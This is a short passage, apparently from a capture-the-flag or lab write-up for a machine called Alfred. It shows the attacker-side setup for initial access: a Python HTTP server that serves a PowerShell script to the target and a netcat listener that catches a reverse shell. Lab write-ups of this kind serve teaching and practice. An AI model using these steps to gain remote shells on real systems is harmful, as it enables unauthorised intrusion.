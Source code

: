 ![](/assets/img/writeup_assets/alfred/initial-access-2.png)

Before proceeding, we'll need to start a http server on our machine so that the remote server can connect and get the powershell script. 
***NOTE***: The script file must be in the current working directory for this to work.

```shell-session
$ python3 -m http.server 4444
Serving HTTP on 0.0.0.0 port 4444 (http://0.0.0.0:4444/) ...
```

We will also need to start a listener for the reverse shell:
```shell-session
$ nc -nvlp 4445
```

